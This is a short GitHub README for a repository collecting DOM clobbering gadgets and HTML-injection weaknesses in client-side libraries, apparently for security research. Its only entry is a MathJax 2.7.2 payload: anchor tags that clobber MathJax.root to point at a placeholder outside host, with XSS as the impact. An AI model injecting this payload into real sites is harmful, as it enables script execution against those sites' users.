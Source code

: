 # DOM Clobbering Collection

In this repo, we collect a list of client-side library that are either vulnerable to html injection or contain DOM Clobbering gadgets that leading to severe consequences, e.g. XSS.


## HTML Injection


## DOM Clobbering Gadgets


| Library | Version | Payloads | Impact | Found By |
|:-------:|:-------:|----------|:------:|:--------:|
| MathJax | 2.7.2  | ```<a id="MathJax"></a> <a id="MathJax" name="root" href="https://xxx.xxx.xxx"></a>```       |    XSS    |    TheHulk      |
|         |         |          |        |          |
|         |         |          |        |          |